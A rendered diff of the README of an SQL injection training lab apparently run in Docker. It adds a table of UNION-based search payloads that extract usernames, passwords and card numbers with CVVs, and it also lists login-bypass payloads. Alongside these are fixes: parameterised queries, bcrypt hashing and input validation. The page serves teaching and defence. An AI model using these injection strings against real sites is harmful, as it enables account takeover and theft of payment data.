

Before and after one commit to anass-ben-2005/sqli-lab, a Markdown page: README.md, the part around one of its changes. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -446,15 +551,27 @@ docker compose down -v
 | P5 | `root_admin'#` | (any) | root_admin (super_admin) | Hash comment |
 | P6 | `' OR role='super_admin'-- ` | (any) | first super_admin | Role filter |
 
+### Search Payloads (UNION-based data extraction)
+
+| Route | Payload (in search bar) | Extracts |
+|-------|------------------------|----------|
+| `/books` (6 cols) | `' UNION SELECT 1,username,password,role,5,6 FROM members#` | Credentials |
+| `/books` (6 cols) | `' UNION SELECT 1,username,card_number,card_type,card_expiry,card_cvv FROM members#` | Card data |
+| `/loans` (6 cols) | `' UNION SELECT 1,username,password,role,5,6 FROM members#` | Credentials |
+| `/members` (5 cols) | `' UNION SELECT 1,username,password,role,5 FROM members#` | Credentials |
+| `/secrets` (8 cols) | `' UNION SELECT 1,username,password,4,5,6,7,8 FROM members#` | Passwords |
+
 ### How Each Payload Works
 
-**P1 — Tautology**: `' OR '1'='1` closes the string and adds a condition that is always true. The WHERE clause is universally satisfied.
+**P1 — Tautology**: `' OR '1'='1` closes the string and adds a condition that is always true.
 
-**P2/P3/P5 — Comment Injection**: `'-- ` or `'#` closes the string and comments out the rest of the query, including the password check.
+**P2/P3/P5 — Comment Injection**: `'-- ` or `'#` closes the string and comments out the rest of the query.
 
-**P4 — UNION Injection**: `UNION SELECT` appends a completely fabricated row to the result set. The app reads this row's columns as if they came from the database.
+**P4 — UNION Injection**: `UNION SELECT` appends a fabricated row to the result set.
 
-**P6 — Role Filter**: Instead of targeting a specific user, filters by `role` column directly.
+**P6 — Role Filter**: Filters by `role` column directly, no username needed.
+
+**Search UNION**: The `'` closes the LIKE string, `UNION SELECT` appends rows from another table (or the same table with different columns). The `#` comments out the trailing `%'` and any ORDER BY.
 
 ---
 
@@ -464,26 +581,37 @@ docker compose down -v
 
 ```python
 # VULNERABLE (before):
-query = "SELECT id, username, role FROM members WHERE username = '" + username + "' AND password = '" + password + "'"
+query = "SELECT ... WHERE username = '" + username + "' AND password = '" + password + "'"
 cursor.execute(query)
 
 # SECURE (after):
-query = "SELECT id, username, role FROM members WHERE username = %s AND password = %s"
+query = "SELECT ... WHERE username = %s AND password = %s"
 cursor.execute(query, (username, password))
 ```
 
-**Why it works**: The database driver sends the query template and the values separately over the wire. MySQL compiles the query first, then substitutes values. Values can never alter the query's structure.
+**Why it works**: The database driver sends the query template and the values separately. MySQL compiles the query first, then substitutes values. Values can never alter the query's structure.
 
-### Fix 2 — Password Hashing
+### Fix 2 — Parameterised Search
+
+```python
+# VULNERABLE (before):
+query = "SELECT ... WHERE title LIKE '%" + q + "%'"
+cursor.execute(query)
+
+# SECURE (after):
+query = "SELECT ... WHERE title LIKE %s"
+cursor.execute(query, (f"%{q}%",))
+```
+
+### Fix 3 — Password Hashing
 
 ```python
 import bcrypt
 
 # At registration:
 hashed = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt())
-# Store hashed in DB
 
-# At login (fetch user by username only — then verify hash):
+# At login:
 query = "SELECT id, username, role, password FROM members WHERE username = %s"
 cursor.execute(query, (username,))
 row = cursor.fetchone()
@@ -491,7 +619,7 @@ if row and bcrypt.checkpw(password.encode('utf-8'), row[3].encode('utf-8')):
     # grant session
 ```
 
-### Fix 3 — Input Validation
+### Fix 4 — Input Validation
 
 ```python
 import re
````
Also changed, not shown: other parts of README.md (+198 -90 lines).
